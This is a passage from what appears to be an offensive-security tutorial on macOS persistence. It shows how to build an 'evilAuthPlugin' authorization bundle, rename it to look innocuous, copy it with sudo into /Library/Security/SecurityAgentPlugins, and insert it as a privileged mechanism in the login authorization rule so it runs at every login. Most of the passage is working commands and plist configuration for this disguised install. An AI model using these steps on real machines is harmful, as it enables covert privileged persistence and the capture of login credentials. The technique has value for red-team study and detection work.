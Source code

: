 opening the project in XCode, there are some housekeeping items to be performed first.

- ![alt text](/plugin-info.png)

the `info.plist` shows the high-level details of the plugin, including the bundle name and bundle identifier. we'll change this to be something a little more innocuous.

- ![alt text](/plugin-name.png) 
 
- ![alt text](/plugin-bundleID.png)

note: the bundle name and identifier should match. 

build the project in XCode (Product -> Build), and then access the build via the Products directory on the left. when you find it in Finder, compress it and copy it over to the `/Library/Security/SecurityAgentPlugins` directory. once it's copied over, unzip it into the directory.

```bash
$ sudo cp evilAuthPlugin.bundle.zip /Library/Security/SecurityAgentPlugins

$ sudo unzip evilAuthPlugin.bundle.zip             
Archive:  evilAuthPlugin.bundle.zip
   creating: evilAuthPlugin.bundle/
   creating: evilAuthPlugin.bundle/Contents/
   creating: evilAuthPlugin.bundle/Contents/_CodeSignature/
   creating: evilAuthPlugin.bundle/Contents/MacOS/
  inflating: evilAuthPlugin.bundle/Contents/Info.plist  
  inflating: evilAuthPlugin.bundle/Contents/_CodeSignature/CodeResources  
  inflating: evilAuthPlugin.bundle/Contents/MacOS/evilAuthPlugin  
```

before proceeding, we have to modify the `poc.plist` file. add the following line: `<string>BundleName:login,privileged</string>` to the file, so that it looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>class</key>
	<string>evaluate-mechanisms</string>
	<key>comment</key>
	<string>Login mechanism based rule.  Not for general use, yet.</string>
	<key>created</key>
	<real>719346785.95490503</real>
	<key>mechanisms</key>
	<array>
		<string>builtin:prelogin</string>
		<string>builtin:policy-banner</string>
		<string>loginwindow:login</string>
		<string>builtin:login-begin</string>
		<string>builtin:reset-password,privileged</string>
		<string>loginwindow:FDESupport,privileged</string>
		<string>builtin:forward-login,privileged</string>
		<string>builtin:auto-login,privileged</string>
		<string>builtin:authenticate,privileged</string>
		<string>PKINITMechanism:auth,privileged</string>
		<string>builtin:login-success</string>
		<string>loginwindow:success</string>
		<string>HomeDirMechanism:login,privileged</string>
		<string>HomeDirMechanism:status</string>
		<string>BundleName:login,privileged</string>
		<string>MCXMechanism:login</string>
		<string>CryptoTokenKit:login</string>
		<string>loginwindow:done</string>
	</array>
	<key>modified</key>
```